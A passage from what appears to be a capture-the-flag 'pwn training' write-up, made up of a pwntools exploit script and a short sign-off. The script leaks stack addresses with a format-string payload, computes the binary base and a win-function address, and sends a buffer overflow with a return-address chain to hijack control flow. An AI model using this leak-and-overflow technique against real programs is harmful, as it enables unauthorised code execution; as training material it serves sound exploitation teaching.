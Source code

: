 ```py
gdbscript = '''
b* main+67
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvline()
p.sendline("%p "*(27))
l = p.recvline().split()

leaked_main = int(l[-1], 16)
win_func = leaked_main - (0x555555555222-0x5555555551c8)
binary_start = leaked_main - (0x555555555222-0x555555554000)

log.info("Leaked main address: " + str(l[-1]))
log.info("win function: "+ str(win_func))
log.info("Binary Start: "+ str(leaked_main - (0x555555555222-0x555555554000)))

p.sendline(b"A"*0x60 + b"B"*8 + p64(binary_start+0x00000000000012eb) + p64(0xdeadbeefcafebabe) + p64(win_func))

p.interactive()     
```

Hope you guys enjoyed the pwn training 2 more amazing challenges are yet to come !! Happy hacking.